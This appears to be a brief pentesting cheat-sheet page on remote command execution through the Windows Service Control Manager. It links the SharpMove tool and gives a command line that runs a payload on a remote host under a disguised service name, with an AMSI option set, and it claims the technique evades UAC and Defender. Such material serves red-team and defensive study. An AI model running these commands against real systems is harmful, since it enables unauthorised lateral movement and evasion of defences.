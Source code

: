 # DCOM Exec

## SCM

**SCMExec** is a technique to execute commands on remote systems using the Service Control Manager (SCM) to create a service that runs the command. This method can bypass some security controls, such as User Account Control (UAC) and Windows Defender.

## Tools

- [**https://github.com/0xthirteen/SharpMove**](https://github.com/0xthirteen/SharpMove):

SharpMove.exe action=scm computername=remote.host.local command="C:\windows\temp\payload.exe" servicename=WindowsDebug amsi=true

